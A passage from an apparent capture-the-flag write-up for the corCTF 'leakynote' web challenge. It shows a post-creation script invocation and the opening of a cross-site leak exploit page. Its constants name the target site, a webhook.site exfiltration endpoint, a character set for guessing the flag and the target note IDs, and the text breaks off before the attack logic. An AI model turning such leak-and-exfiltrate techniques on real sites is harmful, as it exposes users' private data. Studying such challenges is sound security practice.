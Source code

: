 ```sh
$ python make_posts.py "corctf{leakrgo"
prefix = 'corctf{'
const TARGET_IDS = ['054df3428619e625', '65cc5405dc8564fe', '1b7d45634e27c873', 'e29642c2832547df', '2d2d3cde1c8d7364', '3a698bdc7a5f3211', '2211714f4295a0d4', 'b2731895c908a7ea', 'ef351ad9299d2549', '25afaf7e395a0fbc', '88793de3d0858540', 'f771b89bca721df6', '36e96ab2f0cb2d80', '66c3dc231da04d05', '9074846e39521d35', '170a2b9ab4640814', '86f4efd489ad6a03', 'f6ee33af12dc5326', 'b2b1e00655eccc83', 'f305085f9fc390e7', 'e40fbeb6bf596a8a', '6f86900c87d72a81', '55a5a41d390df24b', 'c8e4b6abf8f818d4', '3f95bf8920a5fe33', '3d5d90d50f382a76', '08db4102b0147e35'];
```

2. Report a URL serving the following `index.html` and `main.js`

`index.html`:
```html
<!DOCTYPE html>
<html>
<body>
  <script src="main.js"></script>
</body>
</html>
```

```javascript
const BASE_URL = "https://leakynote.be.ax";

const HOOK_URL = "https://webhook.site/xxx-xxx-xxx-xxx";

const RESOURCE_URLS = [
  `${BASE_URL}/assets/normalize.css`,
  `${BASE_URL}/assets/milligram.css`,
];

const CHARS = "}abcdefghijklmnopqrstuvwxyz";
const TARGET_IDS = [
  "054df3428619e625",
  "65cc5405dc8564fe",
  "1b7d45634e27c873",
  "e29642c2832547df",
  "2d2d3cde1c8d7364",
  "3a698bdc7a5f3211",
  "2211714f4295a0d4",
  "b2731895c908a7ea",
  "ef351ad9299d2549",
  "25afaf7e395a0fbc",
  "88793de3d0858540",
  "f771b89bca721df6",
  "36e96ab2f0cb2d80",
  "66c3dc231da04d05",
  "9074846e39521d35",
  "170a2b9ab4640814",
  "86f4efd489ad6a03",
  "f6ee33af12dc5326",
  "b2b1e00655eccc83",
  "f305085f9fc390e7",
  "e40fbeb6bf596a8a",
  "6f86900c87d72a81",
  "55a5a41d390df24b",
  "c8e4b6abf8f818d4",
  "3f95bf8920a5fe33",
  "3d5d90d50f382a76",
  "08db4102b0147e35",
];
const START_I = 0;

const TRY_NUM = 3;
```